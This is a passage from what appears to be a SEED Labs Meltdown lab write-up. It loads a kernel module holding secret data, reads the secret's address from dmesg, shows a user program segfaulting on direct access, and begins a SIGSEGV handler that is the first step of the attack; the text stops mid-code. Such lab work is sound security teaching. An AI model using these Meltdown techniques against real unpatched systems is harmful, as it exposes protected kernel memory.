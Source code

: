 ```console
Skipping BTF generation for /home/seed/Documents/Meltdown/MeltdownKernel.ko due to unavailability of vmlinux
make[1]: Leaving directory '/usr/src/linux-headers-5.15.0-1022-aws'
```

Install the kernel module and find the secret data's address from the kernel message buffer:
```console
$ sudo insmod MeltdownKernel.ko
$ sudo lsmod | grep Meltdown
MeltdownKernel         16384  0
$ sudo dmesg | grep 'secret data address'
[  936.887248] secret data address: 00000000fd2aab32
```

### Access Kernel Memory from User Space

First, let's see if we can directly get the secret from the address obtained from above.

```c
/* get-secret-test.c */
#include <stdio.h>

int main()
{
        char *kernel_data_addr = (char *)0xfd2aab32;
        char kernel_data = *kernel_data_addr;
        printf("I have reached here.\n");
        return 0;
}
```

Compile and run the simple userspace program:
```console
$ gcc get-secret-test.c -o get-secret-test
$ ./get-secret-test
Segmentation fault (core dumped)
```

Due to access control, I received a segmentation fault. The reason is that, in computer systems, accessing prohibited memory location will cause a <code>SIGSEGV</code> signal to be raised; if a program does not handle this exception by itself, the operating system will handle it and terminate the program. Based on this knowledge, let's define our own signal handler so that the program can continue to execute even if there is a critical exception:
```c
/* ExceptionHandling.c */
#define _POSIX_SOURCE
#include <setjmp.h>
#include <signal.h>
#include <stdio.h>

static sigjmp_buf jbuf;

static void catch_segv()
{
        /* Roll back to the checkpoint set by sigsetjmp() */
        siglongjmp(jbuf, 1);
}

int main()
{
        /* The address of our secret data */
        unsigned long kernel_data_addr = 0xfd2aab32;

        /* Register a signal handler */
        signal(SIGSEGV, catch_segv);

```